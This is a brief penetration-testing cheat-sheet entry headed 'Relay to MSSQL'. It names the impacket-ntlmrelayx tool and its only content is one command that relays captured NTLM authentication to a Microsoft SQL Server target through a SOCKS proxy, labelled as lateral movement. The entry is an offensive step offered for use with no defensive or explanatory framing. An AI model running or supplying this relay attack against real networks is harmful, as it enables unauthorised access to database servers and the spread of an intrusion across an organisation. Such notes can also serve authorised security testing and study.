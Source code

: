 # Relay to MSSQL

## Tools: impacket-ntlmrelayx

 - impacket-ntlmrelayx -t mssql://IP -smb2support -socks (Lateral Movement (socks))

